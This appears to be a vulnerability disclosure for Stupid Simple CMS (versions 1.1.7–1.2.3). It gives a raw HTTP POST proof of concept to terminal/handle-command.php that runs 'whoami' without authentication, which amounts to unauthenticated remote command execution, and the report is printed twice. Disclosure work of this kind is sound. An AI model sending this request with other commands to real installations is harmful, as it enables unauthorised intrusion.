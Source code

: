product： Stupid Simple CMS ( Blogger )
version：Version 1.1.7 - Version 1.2.3
Download link： https://github.com/codelyfe/Stupid-Simple-CMS/releases/tag/v1.2.3
## POC:
```shell
POST http://localhost/terminal/handle-command.php HTTP/1.1
Host: localhost
Content-Length: 14
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/terminal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

command=whoami
```
## Vulnerability principle（漏洞原理）:  
The code audit found that there was no authentication operation in the execution command interface. Can result in unauthorized rce.  
So you only need to send a POST request to handle-command.php to RCE.
代审发现执行命令界面未进行鉴权操作。
product： Stupid Simple CMS ( Blogger )
version：Version 1.1.7 - Version 1.2.3
## POC:
```shell
POST http://localhost/terminal/handle-command.php HTTP/1.1
Host: localhost
Content-Length: 14
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/terminal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

command=whoami
```
## Vulnerability principle（漏洞原理）:  
The code audit found that there was no authentication operation in the execution command interface. Can result in unauthorized rce.  
So you only need to send a POST request to handle-command.php to RCE.
代审发现执行命令界面未进行鉴权操作。
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131679.png)
## Vulnerability verification（漏洞验证）：
Local authentication（本地验证）：
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131290.png)
Official website demonstration address verification（demo验证）：
The demo page is already being patched and the author says it will be removed before the next version is released.
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312091131024.png)

There are still vulnerabilities in version < 1.2.3. 
The previously submitted issue has been closed by the author.
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312131749695.png)
![](https://cdn.jsdelivr.net/gh/g1an123/blogimage@main/202312131749868.png)
